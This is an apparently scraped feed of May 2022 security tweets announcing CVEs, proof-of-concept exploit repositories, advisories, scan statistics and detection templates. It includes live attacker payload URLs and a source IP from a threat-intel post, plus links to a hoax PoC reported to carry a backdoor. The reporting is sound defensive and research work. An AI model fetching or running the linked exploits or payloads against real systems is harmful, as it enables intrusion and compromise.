*Hoax CVE-2022-26809 proof-of-concept published by "rkxxz", image courtesy of @podalirius_ https://t.co/dhNw9sVRuO
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>286</code></td>
</tr></table>

---

# VulmonFeeds
**https://twitter.com/VulmonFeeds/status/1527605239859363841 _at 2022-05-20 11:00:45_**
<blockquote>
CVE-2022-31245

Mailcow CVE-2022-31245
CVE-2022-31245: RCE and Domain Admin privilege escalation for Mailcow. Including POC.
Patched Version: https://t.co/UG1YAWxhTu 
CVE: cve.mi...

https://t.co/9fthfUVpsJ
</blockquote>

* http://github.com/mailcow/mailcow-dockerized/releases/tag/2022-05d
* http://vulmon.com/vulnerabilitydetails?qid=CVE-2022-31245

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# GobySec
**https://twitter.com/GobySec/status/1527546448837214208 _at 2022-05-20 07:07:08_**
<blockquote>
🚩New vulnerability: Apache CouchDB Unauthenticated Remote Code Execution Vulnerability (CVE-2022-24706)
(RedTeam version)
#Goby #CyberSecurity #CVE #Apache 

More Vulnerabilities, https://t.co/wkYqnJYaAJ………
Details ➡️ https://t.co/uI4YmQUjFv
https://t.co/h9aOZgKq0u https://t.co/Ov3KM2qP3k
</blockquote>

* http://github.com/gobysec/GobyVuls
* http://t.me/gobies
* https://t.me/joinchat/ENkApMqOonRhZjFl

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# 0rgis
**https://twitter.com/0rgis/status/1527534187472990209 _at 2022-05-20 06:18:25_**
<blockquote>
CVE-2022-26717

Safari WebGL XFB Use After Free Vulnerability

https://t.co/ZEpPzvh9Tj

#cve #exploit
</blockquote>

* https://github.com/theori-io/CVE-2022-26717-Safari-WebGL-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1527484616239620105 _at 2022-05-20 03:01:26_**
<blockquote>
#exploit
CVE-2022-26717:
Safari WebGL XFB UAF
https://t.co/nsK1SIUQ5W
</blockquote>

* https://github.com/theori-io/CVE-2022-26717-Safari-WebGL-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# UNICORDev
**https://twitter.com/UNICORDev/status/1527454633970618372 _at 2022-05-20 01:02:18_**
<blockquote>
Our Exploit for Exploit for CVE-2021-3560 (Polkit) - Local Privilege Escalation has gone open-source!

https://t.co/7qxYXQEA75
</blockquote>

* https://github.com/UNICORDev/exploit-CVE-2021-3560

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1527304374128476162 _at 2022-05-19 15:05:13_**
<blockquote>
Server-Side Request Forgery (SSRF) in https://t.co/i5Dj0XFlvA (CVE-2022-1784) reported by @Haxatron1 - Patch: https://t.co/FdgyWRii1V
https://t.co/5dpb8f8L3c #bugbounty #infosec #opensource
</blockquote>

* https://github.com/jgraph/drawio
* https://github.com/jgraph/drawio/commit/c63f3a04450f30798df47f9badbc74eb8a69fbdf
* https://huntr.dev/bounties/d1330ce8-cccb-4bae-b9a9-a03b97f444a5/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# reconshell
**https://twitter.com/reconshell/status/1527256167012917249 _at 2022-05-19 11:53:39_**
<blockquote>
CVE 2022-26809 RCE Exploit

#CVE-2022-26809 #Exploit #RCE #vulnerability
#shellcode #Hacking #Bugbounty #Malware #VAPT
#CyberSecurity #RPC #Windows #Microsoft #Bugs

@Emrullah_A @D3pak 

https://t.co/jTR2SHT2lm
</blockquote>

* https://reconshell.com/cve-2022-26809-rce-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# UK_Daniel_Card
**https://twitter.com/UK_Daniel_Card/status/1527209358098145280 _at 2022-05-19 08:47:39_**
<blockquote>
More vulns in the same stack!
CVE-2022-22972 &amp; CVE-2022-22973

Authentication Bypass Vulnerability (CVE-2022-22972) &amp; Local Privilege Escalation Vulnerability (CVE-2022-22973)

#vmware #ropey #appliances #vulnerabilities #everywhere
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# haxor31337
**https://twitter.com/haxor31337/status/1527182890869530624 _at 2022-05-19 07:02:29_**
<blockquote>
Alert !!! This PoC is fake do not run it. You will get a backdoor 🥲
https://t.co/MFrXjCyZBm
</blockquote>

* https://github.com/rkxxz/CVE-2022-26809

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>222</code></td>
</tr></table>

---

# w1se_0_
**https://twitter.com/w1se_0_/status/1527161788567064576 _at 2022-05-19 05:38:38_**
<blockquote>
CVE-2022-26809 SMB RCE 

https://t.co/h7ZCWfUlE7
</blockquote>

* https://github.com/rkxxz/CVE-2022-26809

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# zaenhaxor
**https://twitter.com/zaenhaxor/status/1526993808918913024 _at 2022-05-18 18:31:08_**
<blockquote>
CVE-2022-29383
Netgear Prosafe SSL VPN SQL-Injection

SQL injection vulnerability via USERDBDomains.Domainname at cgi-bin/platform.cgi.

#cve #2022 #29383 #netgear #prosafe #ssl #vpn #firmware https://t.co/4Mr0EHWcbS
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>118</code></td>
</tr></table>

---

# AnnaViolet20
**https://twitter.com/AnnaViolet20/status/1526981698457587713 _at 2022-05-18 17:43:01_**
<blockquote>
As I promised I wrote a blog post about how I could exploit the CVE-2022-1388, I hope you find it useful

https://t.co/yrB5DBziBe
</blockquote>

* https://securityflow.io/how-i-could-exploit-the-cve-2022-1388/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>437</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1526865608767328256 _at 2022-05-18 10:01:43_**
<blockquote>
Improper Input Validation in https://t.co/i5Dj0XWWUa (CVE-2022-1727) reported by 7085 - Patch: https://t.co/ZuJqa0rxK0
https://t.co/ft056Zt0qp #bugbounty #infosec #opensource
</blockquote>

* https://github.com/jgraph/drawio
* https://github.com/jgraph/drawio/commit/4deecee18191f67e242422abf3ca304e19e49687
* https://huntr.dev/bounties/b242e806-fc8c-41c0-aad7-e0c9c37ecdee/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1526820267418193920 _at 2022-05-18 07:01:33_**
<blockquote>
Server-Side Request Forgery (SSRF) in https://t.co/i5Dj0XFlvA (CVE-2022-1767) reported by myyxl - Patch: https://t.co/FdgyWRii1V
https://t.co/xn8wZaHgSK #bugbounty #infosec #opensource
</blockquote>

* https://github.com/jgraph/drawio
* https://github.com/jgraph/drawio/commit/c63f3a04450f30798df47f9badbc74eb8a69fbdf
* https://huntr.dev/bounties/b1ce040c-9ed1-4d36-9b48-82df42310868/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1526582880876609536 _at 2022-05-17 15:18:15_**
<blockquote>
This is a very nice analysis of CVE-2021-27905 by @ykco_z https://t.co/dBWypCZhA1
</blockquote>

* http://noahblog.360.cn/apache-solr-8-8-1-ssrf-to-file-write/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>292</code></td>
</tr></table>

---

# HackenProof
**https://twitter.com/HackenProof/status/1526486200017735681 _at 2022-05-17 08:54:05_**
<blockquote>
Free XXE Vulnerability Practice Labs 🧑‍💻

If you've heard of this vulnerability but didn't know where it is fashionable to practice exploiting XXE vulnerabilities, then this list is for you:
https://t.co/DxpytYBr3Y
https://t.co/xdsBrNFGN6
https://t.co/KlykzeRBos

#bugbounty #XXE
</blockquote>

* https://portswigger.net/web-security/xxe
* https://github.com/jbarone/xxelab
* https://gosecure.github.io/xxe-workshop/#0

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# _odisseus
**https://twitter.com/_odisseus/status/1526477024667258881 _at 2022-05-17 08:17:37_**
<blockquote>
"A OS command injection vulnerability in the CGI program of #Zyxel"

Zyxel RCE (CVE-2022-30525)
https://t.co/H61cImwp0D

Detects CVE-2022-30525 probing or exploitation attempts: https://t.co/jzrEgHKTJx https://t.co/X8bwsW2aVn
</blockquote>

* https://github.com/advisories/GHSA-987m-9prq-3p7m
* https://github.com/xFFninja/threat_hunting/blob/main/web/cve-2022-30525.yaml

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1526466694608216066 _at 2022-05-17 07:36:35_**
<blockquote>
HackGit
​CVE-2022-30525 https://t.co/Mo7ltljPRL #cve https://t.co/jLNPvfFSNd

Zyxel RCE (CVE-2022-30525)
Initial Detect
https://t.co/DOcgCmCi5O

Detects CVE-2022-30525 probing or exploitation attempts
https://t.co/NkzWHjwwzj

Script to Help You Find … https://t.co/R8Qson6FFh https://t.co/BQCWNcVsfy
</blockquote>

* https://github.com/shuai06/CVE-2022-30525
* https://t.me/hackgit/4232
* https://gist.github.com/z3r0-0t/a3bd4c0015458b018308cca3360a7e24
* https://github.com/xFFninja/threat_hunting/blob/main/web/cve-2022-30525.yaml
* https://t.me/hackgit/4263

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# izobashi
**https://twitter.com/izobashi/status/1526320265684213760 _at 2022-05-16 21:54:43_**
<blockquote>
My first two CVEs of 2022 have been published: 
CVE-2022-21908: Microsoft Windows Installer LPE
CVE-2022-26751: Apple AppleGraphicsControl component RCE (when rendering the thumbnail of a file) affecting macOS, iOS and iPadOS.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# sirifu4k1
**https://twitter.com/sirifu4k1/status/1526168426783592448 _at 2022-05-16 11:51:22_**
<blockquote>
#POC CVE-2022-30778: Laravel 9.1.8 unserialize POP chain to RCE  https://t.co/2VzrQOPLIR
</blockquote>

* https://github.com/1nhann/vulns/issues/1

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1526116555117023232 _at 2022-05-16 08:25:15_**
<blockquote>
We are seeing an uptick of scans testing for the Sophos Firewall CVE-2022-1040 RCE. The vulnerability published 25th March, but a POC was published 9th May, and that appears to be used. Make sure to patch!

Sophos advisory: https://t.co/wQEjfdPUUf

https://t.co/9eQvWio2rO
</blockquote>

* https://www.sophos.com/en-us/security-advisories/sophos-sa-20220325-sfos-rce
* https://www.bleepingcomputer.com/news/security/critical-sophos-firewall-vulnerability-allows-remote-code-execution/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1525869116451860482 _at 2022-05-15 16:02:01_**
<blockquote>
⚔️ List of Top 25 parameters for finding:

- XSS
- SSRF
- LFI
- SQLi
- RCE
- Open Redirects

https://t.co/FP4Ykz63Tm

Useful for fuzzing.

#bugbounty #infosec #cybsersecurity #redteam #pentesting https://t.co/6jP6ghzoIT
</blockquote>

* https://github.com/lutfumertceylan/top25-parameter/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>185</code></td>
<td>Favorites: <code>632</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1525771529941921792 _at 2022-05-15 09:34:14_**
<blockquote>
We see at least 20 800 of the potentially affected Zyxel firewall models (by unique IP) accessible on the Internet. Most popular are USG20-VPN (10K IPs) and USG20W-VPN (5.7K IPs). 

Most of the CVE-2022-30525 affected models are in the EU - France (4.5K) and Italy (4.4K). https://t.co/Wh7I8JCvVv
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1525763353624424448 _at 2022-05-15 09:01:45_**
<blockquote>
Server-Side Request Forgery (SSRF) in https://t.co/i5Dj0XWWUa (CVE-2022-1713) reported by @caioluders - Patch: https://t.co/tT4Oi8rN7F
https://t.co/Pozqa0rLlg #bugbounty #infosec #opensource
</blockquote>

* https://github.com/jgraph/drawio
* https://github.com/jgraph/drawio/commit/283d41ec80ad410d68634245cf56114bc19331ee
* https://huntr.dev/bounties/cad3902f-3afb-4ed2-abd0-9f96a248de11/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# 3ackd0or
**https://twitter.com/3ackd0or/status/1525750314313388032 _at 2022-05-15 08:09:56_**
<blockquote>
Tool for checking and #exploit BIG-IP #iControl REST #vulnerability (CVE-2022-1388) #RCE #Security #BugBounty #vulnerabilities #CyberSecurity #infosec #infosecurity #cyberattacks #ThreatHunting 
A Test API for testing the #PoC https://t.co/PLhusUULZc
Tool: https://t.co/UhT3BLoSJ7
</blockquote>

* https://github.com/bandit92/CVE2022-1388_TestAPI
* https://github.com/justakazh/CVE-2022-1388

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# PadsalaTushal
**https://twitter.com/PadsalaTushal/status/1525661553432797184 _at 2022-05-15 02:17:14_**
<blockquote>
#PoC for CVE-2022-1388 is out, grab it here! Added #shodan query!

https://t.co/nX4FufMyI4

 #bugbounty #bugbountytips #infosec #cybersecurity https://t.co/BbYx6mkrSl
</blockquote>

* https://github.com/sherlocksecurity/CVE-2022-1388_F5_BIG-IP_RCE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# leak_ix
**https://twitter.com/leak_ix/status/1525625446683054083 _at 2022-05-14 23:53:45_**
<blockquote>
Still 25000 DVR solutions running that vulnerable firmware ... LFI for sure, RCE most likely ...

Source : https://t.co/i5GZ5bQBti https://t.co/8RpvWrzqm7
</blockquote>

* https://github.com/tothi/pwn-hisilicon-dvr

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# cyber_edu_jp
**https://twitter.com/cyber_edu_jp/status/1525576343580123137 _at 2022-05-14 20:38:38_**
<blockquote>
Active Directory defaults lead to no-fix PrivEsc vulnerability - Security - iTnews
https://t.co/cp9mIwjWk2
KrbReplyUp
https://t.co/V50OWCkxOB
CVE-2021-36942 - Security Update Guide - Microsoft - Windows LSA Spoofing Vulnerability
https://t.co/h4O9bXjrQ2
</blockquote>

* https://www.itnews.com.au/news/active-directory-defaults-lead-to-no-fix-privesc-vulnerability-579808
* https://github.com/Dec0ne/KrbRelayUp#acknowledgements
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1525551927760564224 _at 2022-05-14 19:01:37_**
<blockquote>
Code Injection in https://t.co/eiDVGG4xDR (CVE-2022-0578) reported by @ - Patch: https://t.co/KfHwr8ATQy
https://t.co/RMkXBPQiPO #bugbounty #infosec #opensource
</blockquote>

* https://github.com/publify/publify
* https://github.com/publify/publify/commit/b50df050c593cc532b2c516792989bcfce2d73f7
* https://huntr.dev/bounties/02c81928-eb47-476f-8000-e93dc796dbcc/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1525527923897384961 _at 2022-05-14 17:26:14_**
<blockquote>
WSO2 - CVE-2022-29464 🚨
Unrestricted File Upload lead to RCE

1ra ronda de explotación inicio el 21 de Abril con la instalación masiva de #webshells como backdoor. Al menos 212 servidores en el mundo ya están comprometidos (última imagen con el TOP 25 servidores por país). https://t.co/ara6Fu2IBD
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# princechaddha
**https://twitter.com/princechaddha/status/1525428146715078657 _at 2022-05-14 10:49:45_**
<blockquote>
Highlights of Nuclei-Templates release v9.0.1

- Added Zyxel Firewall - Unauthenticated RCE [CVE-2022-30525]

- Added Sophos Firewall - RCE [CVE-2022-1040]

- Updated F5 BIG-IP iControl - RCE [CVE-2022-1388] with custom CMD execution support and improved matchers.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1525232566911275009 _at 2022-05-13 21:52:36_**
<blockquote>
Template: https://t.co/SOYT47sEsA

#hackwithautomation #security #bugbounty #foss https://t.co/TVOHaeqQIi
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/releases/tag/v9.0.1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1525224472067903491 _at 2022-05-13 21:20:26_**
<blockquote>
CVE-2022-29108: New Wine in Old Bottle - Microsoft Sharepoint Post-Auth Deserialization RCE.

https://t.co/8s9WwKM9ij https://t.co/WUbqLWngNk
</blockquote>

* https://starlabs.sg/blog/2022/05/new-wine-in-old-bottle-microsoft-sharepoint-post-auth-deserialization-rce-cve-2022-29108/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1525166293430677504 _at 2022-05-13 17:29:15_**
<blockquote>
⚠️ CVE-2022-1388 event detected ⚠️

Source IP:
192.3.194.202 (🇺🇸)

Target:
F5 BIG-IP iControl REST endpoints vulnerable to unauthenticated remote code execution (https://t.co/WUtSumd1b7)

Payload:
http://185.101.107.92/xms
http://185.101.107.92/d.py
. . .
#threatintel https://t.co/kHoLN0R7cy
</blockquote>

* https://support.f5.com/csp/article/K23605346

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# akazh18
**https://twitter.com/akazh18/status/1525062528270622720 _at 2022-05-13 10:36:55_**
<blockquote>
Just Tool for checking and exploit BIG-IP iControl REST vulnerability CVE-2022-1388 (RCE)
mode:
- single
- mass

Link:
https://t.co/epzOzfkwnS
LAB:
https://t.co/snsnEgMKpa

#CVE #CVE20221388 #F5 #bugbounty #bugbountytips #infosec #zeroday #0day https://t.co/RlqQJs75Sy
</blockquote>

* https://github.com/justakazh/CVE-2022-1388
* https://github.com/bandit92/CVE2022-1388_TestAPI

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# GobySec
**https://twitter.com/GobySec/status/1525007581890101250 _at 2022-05-13 06:58:35_**
<blockquote>
🚩New vulnerability: Zyxel ZTP RCE (CVE-2022-30525)
(RedTeam version)
#Goby #CyberSecurity #CVE #Zyxel 

More Vulnerabilities, https://t.co/wkYqnJXCLb………
Details ➡️ https://t.co/uI4YmQTLPX
https://t.co/h9aOZgJSaW https://t.co/3u6sQy03uv
</blockquote>

* http://github.com/gobysec/GobyVuls
* http://t.me/gobies
* https://t.me/joinchat/ENkApMqOonRhZjFl

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Raj_Samani
**https://twitter.com/Raj_Samani/status/1525007011724902400 _at 2022-05-13 06:56:19_**
<blockquote>
Nice work @Junior_Baines ,who identified CVE-2022-30525 that affects Zyxel firewalls - allows "an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device" - @metasploit module available https://t.co/QZbVeBNAD7 #infosec https://t.co/KzQImO1iaW
</blockquote>

* https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1525002071111520257 _at 2022-05-13 06:36:41_**
<blockquote>
spring-rce-poc
Simple app vulnerable to CVE-2022-22968

https://t.co/f6rLlNr0Q8

#cve #poc

GitHub - MarcinGadz/spring-rce-poc: Testing CVE-2022-22968 - GitHub
Testing CVE-2022-22968. Contribute to MarcinGadz/spring-rce-poc development by creating an ac… https://t.co/xygglec0NE https://t.co/KoBFQX3ERs
</blockquote>

* https://github.com/MarcinGadz/spring-rce-poc
* https://t.me/hackgit/4205

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1524902483784618002 _at 2022-05-13 00:00:58_**
<blockquote>
CVE-2022-23270 – Windows Server VPN Remote Kernel Use After Free Vulnerability (Part 2) https://t.co/YBQPZGlMBQ  #Pentesting #Windows #Vulnerability #CyberSecurity #Infosec https://t.co/qXrQaujlRl
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-23270-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# _bughunter
**https://twitter.com/_bughunter/status/1524837450144698382 _at 2022-05-12 19:42:32_**
<blockquote>
PwnSSRF 🔥🔥 Powerful SSRF Scanner
Usage:  python3 https://t.co/7wbYUvbPC3 -H https://t.co/w8YvTc19SL
https://t.co/yNT2NbbFWe
#bugbountytips #bugbountytip #bugbounty https://t.co/KevKCeyrL0
</blockquote>

* http://pwnssrf.py
* https://www.google.com
* https://github.com/pwn0sec/PwnSSRF

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>255</code></td>
</tr></table>

---

# jorgemieres
**https://twitter.com/jorgemieres/status/1524799117658136576 _at 2022-05-12 17:10:13_**
<blockquote>
📢 #MyBB 1.8.29 - #RemoteCodeExecution (#RCE) - Authenticated (CVE-2022-24734 #PoC) 🔃
https://t.co/ilmL5fKKjI

#vulnerabilities #exploit #codeexecution #security https://t.co/H3tc8pxgdZ
</blockquote>

* https://github.com/Altelus1/CVE-2022-24734

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1524750691490619392 _at 2022-05-12 13:57:48_**
<blockquote>
On April 28, Zyxel released firmware that fixed an unauthenticated and remote command injection I'd found in their firewalls: USG FLEX series, ATP series, and USG20-VPN/USG20w-VPN. This was assigned CVE-2022-30525. We published our advisory this morning: https://t.co/lJF3kXoCok
</blockquote>

* https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1524725186678996992 _at 2022-05-12 12:16:27_**
<blockquote>
Today's write up is a deep dive into CVE-2022-23270, another remote Microsoft Windows VPN vulnerability, by @i4mchr00t.  

Learn how to identify and trigger Use after Free vulnerabilities in production code!

https://t.co/FyVNR4VhYt
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-23270-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# starlabs_sg
**https://twitter.com/starlabs_sg/status/1524707213817696258 _at 2022-05-12 11:05:02_**
<blockquote>
"New Wine in Old Bottle - Microsoft SharePoint Post-Auth Deserialization RCE (CVE-2022-29108)"
We are happy to share the technical details of how our team member @testanull found and exploited CVE-2022-29108 🤩
https://t.co/J5Ro78LUbj
</blockquote>

* https://starlabs.sg/blog/2022/05/new-wine-in-old-bottle-microsoft-sharepoint-post-auth-deserialization-rce-cve-2022-29108/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---

# domchell
**https://twitter.com/domchell/status/1524701965669875713 _at 2022-05-12 10:44:10_**
<blockquote>
@424f424f @ly4k_ Here's a quick poc to setup the attributes for an existing machine account where you've escalated https://t.co/pMEuEMPP15 - lovely bug ♥️
</blockquote>

* https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# 3ackd0or
**https://twitter.com/3ackd0or/status/1524685136947781635 _at 2022-05-12 09:37:18_**
<blockquote>
There is a unserialize POP #vulnerability that can #RCE for CVE-2021-43503. #Security #0day #BugBounty #vulnerabilities #CyberSecurity #infosec #informationsecurity #infosecurity #cyberattacks #ThreatHunting https://t.co/7dTdxwyNxf
</blockquote>

* https://github.com/guoyanan1g/Laravel-vul/issues/2#issue-1045655892

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# OSINT_info
**https://twitter.com/OSINT_info/status/1524647391324000257 _at 2022-05-12 07:07:19_**
<blockquote>
CVE-2022-24734 PoC
An RCE can be obtained on MyBB's Admin CP in Configuration -&amp;gt; Add New Setting. The user must have a rights to add or update setting. This is tested on MyBB 1.8.29.

https://t.co/BJkKCT2MLV

#cve #poc

-

